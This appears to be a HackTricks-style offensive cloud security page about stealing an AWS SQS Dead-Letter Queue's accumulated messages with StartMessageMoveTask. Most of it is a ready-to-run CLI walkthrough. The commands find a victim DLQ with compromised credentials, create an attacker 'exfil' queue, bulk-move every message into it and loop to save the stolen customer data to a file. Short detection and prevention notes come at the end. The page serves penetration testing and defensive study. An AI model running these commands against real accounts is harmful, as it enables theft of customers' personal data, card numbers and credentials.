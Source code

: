# AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../banners/hacktricks-training.md}}

## Description

Abuse SQS message move tasks to steal all accumulated messages from a victim's Dead-Letter Queue (DLQ) by redirecting them to an attacker-controlled queue using `sqs:StartMessageMoveTask`. This technique exploits AWS's legitimate message recovery feature to exfiltrate sensitive data that has accumulated in DLQs over time.

## What is a Dead-Letter Queue (DLQ)?

A Dead-Letter Queue is a special SQS queue where messages are automatically sent when they fail to be processed successfully by the main application. These failed messages often contain:
- Sensitive application data that couldn't be processed
- Error details and debugging information  
- Personal Identifiable Information (PII)
- API tokens, credentials, or other secrets
- Business-critical transaction data

DLQs act as a "graveyard" for failed messages, making them valuable targets since they accumulate sensitive data over time that applications couldn't handle properly.

## Attack Scenario

**Real-world example:**
1. **E-commerce application** processes customer orders through SQS
2. **Some orders fail** (payment issues, inventory problems, etc.) and get moved to a DLQ
3. **DLQ accumulates** weeks/months of failed orders containing customer data: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Attacker gains access** to AWS credentials with SQS permissions
5. **Attacker discovers** the DLQ contains thousands of failed orders with sensitive data
6. **Instead of trying to access individual messages** (slow and obvious), attacker uses `StartMessageMoveTask` to bulk transfer ALL messages to their own queue
7. **Attacker extracts** all historical sensitive data in one operation

## Requirements
- The source queue must be configured as a DLQ (referenced by at least one queue RedrivePolicy).
- IAM permissions (run as the compromised victim principal):
  - On DLQ (source): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
  - On destination queue: permission to deliver messages (e.g., queue policy allowing `sqs:SendMessage` from the victim principal). For same-account destinations this is typically allowed by default.
  - If SSE-KMS is enabled: on source CMK `kms:Decrypt`, and on destination CMK `kms:GenerateDataKey`, `kms:Encrypt`.

## Impact
Exfiltrate sensitive payloads accumulated in DLQs (failed events, PII, tokens, application payloads) at high speed using native SQS APIs. Works cross-account if the destination queue policy allows `SendMessage` from the victim principal.

## How to Abuse

- Identify the victim DLQ ARN and ensure it is actually referenced as a DLQ by some queue (any queue is fine).
- Create or choose an attacker-controlled destination queue and get its ARN.
- Start a message move task from the victim DLQ to your destination queue.
- Monitor progress or cancel if needed.

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenario**: An attacker has compromised AWS credentials and discovered that an e-commerce application uses SQS with a DLQ containing failed customer order processing attempts.

1) **Discover and examine the victim DLQ**

```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
  --attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847" 
```

2) **Create attacker-controlled destination queue**

```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```

3) **Execute the bulk message theft**

```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
  --source-arn "$SRC_ARN" \
  --destination-arn "$ATTACKER_Q_ARN" \
  --max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```

4) **Harvest the stolen sensitive data**

```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
  --attribute-names All --message-attribute-names All \
  --max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
  MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
    --max-number-of-messages 10 --wait-time-seconds 2 --output json)
  
  if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
    echo "No more messages - exfiltration complete!"
    break
  fi
  
  echo "Received batch of stolen data..."
  # Process/save the stolen customer data
  echo "$MESSAGES" >> stolen_customer_data.json
done
```

### Cross-account notes
- The destination queue must have a resource policy allowing the victim principal to `sqs:SendMessage` (and, if used, KMS grants/permissions).

## Why This Attack is Effective

1. **Legitimate AWS Feature**: Uses built-in AWS functionality, making it hard to detect as malicious
2. **Bulk Operation**: Transfers thousands of messages quickly instead of slow individual access
3. **Historical Data**: DLQs accumulate sensitive data over weeks/months
4. **Under the Radar**: Many organizations don't monitor DLQ access closely
5. **Cross-Account Capable**: Can exfiltrate to attacker's own AWS account if permissions allow

## Detection and Prevention

### Detection
Monitor CloudTrail for suspicious `StartMessageMoveTask` API calls:
```json
{
  "eventName": "StartMessageMoveTask",
  "sourceIPAddress": "suspicious-ip",
  "userIdentity": {
    "type": "IAMUser",
    "userName": "compromised-user"
  },
  "requestParameters": {
    "sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
    "destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
  }
}
```

### Prevention
1. **Least Privilege**: Restrict `sqs:StartMessageMoveTask` permissions to only necessary roles
2. **Monitor DLQs**: Set up CloudWatch alarms for unusual DLQ activity
3. **Cross-Account Policies**: Carefully review SQS queue policies allowing cross-account access
4. **Encrypt DLQs**: Use SSE-KMS with restricted key policies
5. **Regular Cleanup**: Don't let sensitive data accumulate in DLQs indefinitely

{{#include ../../../banners/hacktricks-training.md}}
